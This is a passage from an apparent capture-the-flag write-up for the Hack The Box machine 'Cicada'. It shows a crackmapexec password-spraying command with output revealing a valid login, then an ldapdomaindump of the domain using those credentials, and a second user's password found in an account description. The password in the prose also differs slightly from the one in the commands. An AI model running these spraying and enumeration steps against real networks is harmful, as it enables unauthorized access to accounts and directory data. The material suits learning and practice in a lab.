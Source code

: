 
We have found multiple users through brute forcing. Now, we will try the default password with each username to see which one will result in a successful login.

```bash
crackmapexec smb 10.10.11.35 -u users-cicada.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp
```

As we observe the above output, `michael.wrightson` is the username associated with the password `Cicada$M6Corpb@Lp#nZp!8*`.

We will be using `ldapdomaindump` to dump all the information related to the domain using the credentials of `michael.wrightson`.

```bash
ldapdomaindump ldap://10.10.11.35 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```
Let’s view all the dumped information and see if we can find anything of interest.

![Domain Users](/assets/images/writeups/Cicada-HTB/1.png)

We have found the password of another user, `david.orelious`, which is `aRt$Lp#7t*VQ!3`, in the description.
